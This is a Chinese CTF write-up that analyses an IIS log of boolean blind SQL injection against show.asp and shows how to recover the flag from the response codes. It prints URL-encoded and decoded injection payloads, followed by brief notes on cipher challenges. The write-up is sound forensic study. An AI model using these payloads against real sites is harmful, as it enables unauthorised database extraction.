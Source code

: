 猜测是IIS服务器记录的流量日志， 分析前几行

```
2015-10-21 09:16:34 W3SVC1 192.168.1.135 GET /index.htm - 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 200 0 0
2015-10-21 09:16:34 W3SVC1 192.168.1.135 GET /favicon.ico - 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 404 0 2
2015-10-21 09:16:36 W3SVC1 192.168.1.135 GET /show.asp id=2 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 200 0 0
2015-10-21 09:25:01 W3SVC1 192.168.1.135 GET /show.asp id=2%27|17|80040e14|字符串_''_之前有未闭合的引号。 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 500 0 0
```

可以看到就是一条条的HTTP请求，并且后面跟着状态码。继续浏览，看到`id`字段出现一些`SQL`的关键字，那么可以想到这记录的就是`sqlmap`(或许)的注入流量分析。思路就是找到关键的注入请求，文件很大，我们可以搜索`flag`试试，找到关键的请求如下

```
...
2015-10-21 09:32:35 W3SVC1 192.168.1.135 GET /show.asp id=2%20AND%20UNICODE%28SUBSTRING%28%28SELECT%20ISNULL%28CAST%28LTRIM%28STR%28COUNT%28DISTINCT%28theflag%29%29%29%29%20AS%20NVARCHAR%284000%29%29%2CCHAR%2832%29%29%20FROM%20tourdata.dbo.news%29%2C1%2C1%29%29%3E51|18|800a0bcd|BOF_或_EOF_中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。 80 - 192.168.1.101 Mozilla/5.0+(Windows;+U;+Windows+NT+6.0;+en-US;+rv:1.9.1b4)+Gecko/20090423+Firefox/3.5b4+GTB5+(.NET+CLR+3.5.30729) 500 0 0
2015-10-21 09:32:35 W3SVC1 192.168.1.135 GET /show.asp id=2%20AND%20UNICODE%28SUBSTRING%28%28SELECT%20ISNULL%28CAST%28LTRIM%28STR%28COUNT%28DISTINCT%28theflag%29%29%29%29%20AS%20NVARCHAR%284000%29%29%2CCHAR%2832%29%29%20FROM%20tourdata.dbo.news%29%2C1%2C1%29%29%3E48 80 - 192.168.1.101 Mozilla/5.0+(Windows;+U;+Windows+NT+6.0;+en-US;+rv:1.9.1b4)+Gecko/20090423+Firefox/3.5b4+GTB5+(.NET+CLR+3.5.30729) 200 0 0
...
```

可以利用文本编辑器如`sublime text 3`的`ctrl+H`的替换功能， 将关键流量进行精简并`urldecode`利于分析(截取两个代表性请求)

```
id=2 AND UNICODE(SUBSTRING((SELECT ISNULL(CAST(LTRIM(STR(COUNT(DISTINCT(theflag)))) AS NVARCHAR(4000)),CHAR(32)) FROM tourdata.dbo.news),1,1))>51|18|800a0bcd|BOF_或_EOF_中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。 500 0 0
id=2 AND UNICODE(SUBSTRING((SELECT ISNULL(CAST(LTRIM(STR(COUNT(DISTINCT(theflag)))) AS NVARCHAR(4000)),CHAR(32)) FROM tourdata.dbo.news),1,1))>48 80 200 0 0
```

可以看到这里是二分法盲注的HTTP请求，现在思路很明确了， 从`SUBSTRING(.*, 1, 1)`开始找，并且只要看最后几条的注入请求就可以判断出字符是多少。 比如`SUBSTRING(.*, 1, 1) > 48`的状态码是`200`，`SUBSTRING(.*, 1, 1) > 49`的状态码是`500`，那其实就可以确定字符的ascii码是49。就这样就能得到`theflag`的值。

# brightstar

[列移位密码](https://ctf-wiki.github.io/ctf-wiki/crypto/classical/others/#_9) 

# 这是啥呀

base32编码

# 下午
